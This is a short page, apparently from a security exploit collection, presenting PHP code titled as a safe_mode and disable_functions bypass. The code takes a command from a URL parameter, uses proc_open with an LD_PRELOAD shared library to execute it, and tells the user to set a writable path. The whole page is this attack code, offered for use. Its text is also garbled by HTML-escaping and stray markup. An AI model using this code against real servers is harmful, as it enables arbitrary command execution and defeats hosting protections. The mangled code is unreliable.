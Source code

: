 # PHP safe_mode bypass via proc_open and custom environment Exploit


From [[http://blog.safebuff.com/2016/05/06/disable-functions-bypass/|http://blog.safebuff.com/2016/05/06/disable-functions-bypass/]]

```php
<!--p $path="/var/www"; //change to your writable path $a=fopen($path."/.comm","w"); fputs($a,$_GET["c"]); fclose($a); $descriptorspec = array(  0--> array("pipe", "r"),
 1 =&gt; array("file", $path."/output.txt","w"),
 2 =&gt; array("file", $path."/errors.txt", "a" )
); $cwd = '.'; $env = array('LD_PRELOAD' =&gt; $path."/a.so"); $process = proc_open('id &gt; /tmp/a', $descriptorspec, $pipes, $cwd, $env); // example command - should not succeed sleep(1); $a=fopen($path."/.comm1","r");
echo "";
while (!feof($a))
{$b=fgets($a);echo $b;} fclose($a);
?&gt;;

```
```



